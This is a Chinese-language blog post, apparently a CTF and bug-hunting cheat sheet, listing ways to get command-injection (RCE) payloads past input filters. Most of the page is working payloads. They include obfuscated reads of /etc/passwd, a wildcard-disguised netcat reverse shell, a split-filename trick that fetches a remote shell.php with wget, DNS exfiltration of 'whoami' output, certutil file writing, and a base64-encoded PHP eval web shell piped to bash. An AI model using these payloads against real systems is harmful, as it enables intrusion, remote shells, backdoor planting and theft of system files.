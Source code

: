 ```yaml
---
layout: post
title: RCE Bypass (keep updated)
---
```



> # 本位介绍RCE中Bypass技巧，可用在漏洞挖掘及CTF中。

[TOC]

### 命令连接

```bash

` & || | $()

%0a 换行符

%0d 回车符

;  连续指令

a=l;b=s;$a$b 局部变量

curl `whoami`xxxx.xxx DNS管道解析
```

### some Trick

```bash

1>wget\

1>xxx.com.\

1>com\

1>-O\

1>she\

1>ll.p\

1>p

ls -t>a

sh a

```

`ls -t`是按照时间顺排序

http://2130706433  IP转10进制

http://0x7F000001  IP转16进制

转化网址：http://www.msxindl.com/tools/ip/ip_num.asp

### 通配符

```bash

/???/n? -e /???/b??h 127.0.0.1 6666

bin/nc -e /bin/bash 127.0.0.1 6666

/???/c?t /?t?/p??swd

\*  代表『 0 个到无穷多个』任意字符

?  代表『一定有一个』任意字符

[ ]  同样代表『一定有一个在括号内』的字符(非任意字符)。例如 [abcd] 代表『一定有一个字符， 可能是 a, b, c, d 这四个任何一个』

[ - ]  若有减号在中括号内时，代表『在编码顺序内的所有字符』。例如 [0-9] 代表 0 到 9 之间的所有数字，因为数字的语系编码是连续的！

[^ ]  若中括号内的第一个字符为指数符号 (^) ，那表示『反向选择』，例如 [^abc] 代表 一定有一个字符，只要是非 a, b, c 的其他字符就接受的意思
```


### cat flag可转换为：
```bash

cat fla[a-z]

cat fl[a]g

cat f``lag

c’a’t /f’la’g

cat fl??

cat f*

cat $(echo -n "base64加密的flag" | base64-d)

cat `echo -n "base64加密的flag" | base64-d`

c\at /fl\ag

head /`ls /|grep 'fla'

a=c;b=at;c=fl;d=ag;$a$b $c$d

```





### 利用历史执行记录来bypass

```bash

root@kali$ cat

root@kali$ fl

root@kali$ ag

root@kali$ history

1.cat

2.fl

3.ag

root@kali$ !1!2!3

flag{ea3y_bypa3s_inj3ct1on}

```





###过滤空格的时候



```bash
cat${IFS}flag

cat$IFS$9flag

<

%09 (需要php环境)

``
```

### 命令终止符

```
%00 %20
```

## 其他绕过
```bash
cat$u /etc$u/passwd$u

/?in/cat /?tc/p?sswd

/'b'i'n'/'c'a't' /'e't'c'/'p'a's's'w'd

/"b"i"n"/"w"h"i"c"h" "n"c

/b\i\n/w\h\i\c\h n\c
```

### 写文件

Windows

```
echo 48 65 6C 6C 6F 2C 57 6F 72 6C 64 21 >hex.txt

生成 hex.txt，机器码对应的内容是 Hallo World!

certutil -decodehex hex.txt bin.txt

也可以base64解码

certutil -decode hex.txt bin.txt
```

Linux
```bash
echo -e "\x61">1.txt
```

将payload加密成base64 例如 `echo '<?php @eval($_REQUEST[c]);?>'>>/var/www/c.php`s
```
`echo${IFS}"ZWNobyAnPD9waHAgQGV2YWwoJF9SRVFVRVNUWzEwMDg2XSk7Pz4nPj4vdmFyL3d3dy9zaHRlcm0vcmVzb3VyY2VzL3FyY29kZS9sYmo3Ny5waHAK"|base64${IFS}-D|bash`
```